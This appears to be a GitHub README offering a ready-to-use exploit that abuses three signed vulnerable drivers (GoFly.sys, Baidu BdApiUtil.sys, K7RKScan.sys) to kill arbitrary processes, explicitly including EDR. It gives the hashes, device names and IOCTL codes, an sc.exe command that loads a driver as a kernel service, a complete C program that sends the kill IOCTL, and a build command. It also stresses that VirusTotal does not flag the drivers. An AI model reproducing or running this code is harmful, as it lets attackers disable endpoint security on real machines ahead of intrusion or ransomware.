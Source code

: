 # Funky Drivers

These drivers expose process termination APIs (e.g., `ZwTerminateProcess`) that can be used to terminate arbitrary processes (e.g. EDR). 
None of the drivers is flagged are malicious on VirusTotal. All vulnerabilities are "ZeroDays". 

## Driver 1 - GOLINK Software `GoFly.sys`

```
SHA256: 2FDFDD13A0C548BB68C9D5AA8599A9265D4659DA3E237FE7A42AC6AC06B9A06A
DeviceName: \\.\GoFly
IOCTL: 0x12227A
```

## Driver 2 - Baidu Antivirus `BdApiUtil.sys`

```
SHA256: 32198295D2A2700B9895FFF999C2B233F9BEFB0BC175815EC4B71EE926B6EDFC
DeviceName: \\.\BdApiUtil
IOCTL: 0x800024B4
```

## Driver 3 - K7 Antivirus `K7RKScan.sys`

```
SHA256: 5C6CE55A85F5D4640BD1485A72D0812BC4F5188EE966C5FE334248A7175D9040
DeviceName: \\.\DosK7RKScnDrv
IOCTL: 0x222018
```

## Exploit code

Create kernel service using one of the `.sys` drivers :

```Powershell
sc.exe create <ServiceName> binPath= <path.sys> type= kernel && sc.exe start <ServiceName>
```

Then compile and run exploit code with appropriate IOCTL / DeviceName

```C
#include <stdio.h>
#include <windows.h>

#define GETDAFUNK <IOCTL_HERE> // change this 

int main(void) {
  
	unsigned int pid;
	unsigned int res;
	DWORD lpBytesReturned = 0;

	HANDLE hDevice = CreateFileA("\\\\.\\<DeviceName here>", // change this
					GENERIC_WRITE|GENERIC_READ, 
					0, 
					NULL, 
					OPEN_EXISTING, 
					FILE_ATTRIBUTE_NORMAL, 
					NULL);
  
	if(hDevice == INVALID_HANDLE_VALUE){
		printf("[!] Connection to the driver failed\n");
		return -1;
	}
  
	printf("[+] Connected to driver\n");
	printf("[i] PID please : \n");
	scanf("%u", &pid);

	res = DeviceIoControl(hDevice, GETDAFUNK, &pid, sizeof(pid), NULL, 0, &lpBytesReturned, NULL);

	if (!res) {
		printf("[!] Funky IOCTL failed\n");
    		CloseHandle(hDevice);
    		return -1;
	}
  
	printf("[+] Process with PID : %u killed\n", pid);
	CloseHandle(hDevice);
  
	return 0;
}

```

```bash
x86_64-w64-mingw32-gcc -o Funkyller.exe exploit.c 
```
